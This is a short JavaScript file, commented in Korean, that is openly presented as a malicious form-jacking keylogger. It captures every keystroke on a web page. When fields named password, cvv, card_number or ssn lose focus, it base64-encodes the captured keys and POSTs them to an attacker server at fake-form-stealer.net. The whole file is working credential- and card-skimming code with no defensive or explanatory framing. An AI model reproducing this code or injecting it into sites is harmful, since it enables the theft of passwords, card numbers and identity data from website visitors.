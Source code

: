 // 파일: keylogger.js
// 목적: 사용자의 폼 입력을 가로채 외부로 전송

console.log("악성 스크립트: 폼 재킹 모듈 로드됨.");

// 사이트의 모든 'input' 필드를 감시 대상으로 지정
const inputs = document.querySelectorAll('input');
let keystrokes = '';

// 감시 대상이 되는 민감한 필드 이름 (예: 신용카드, 비밀번호)
const sensitiveFields = ['password', 'cvv', 'card_number', 'ssn'];

// 키보드를 누를 때마다(keydown) 이벤트 리스너를 추가
document.addEventListener('keydown', (event) => {
    keystrokes += event.key;
});

// 사용자가 민감한 필드를 클릭할 때(focusout) 데이터 전송 시도
inputs.forEach(input => {
    if (sensitiveFields.includes(input.name)) {
        input.addEventListener('focusout', () => {
            // 지금까지 수집된 키스트로크를 악성 서버로 전송
            sendDataToAttacker(keystrokes);
            keystrokes = ''; // 수집 버퍼 비우기
        });
    }
});

function sendDataToAttacker(data) {
    // 사용자의 입력값을 base64로 인코딩하여 숨김
    const encodedData = btoa(data);
    
    // 악성 서버로 데이터 전송
    fetch('http://fake-form-stealer.net/log', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ k_data: encodedData })
    });
}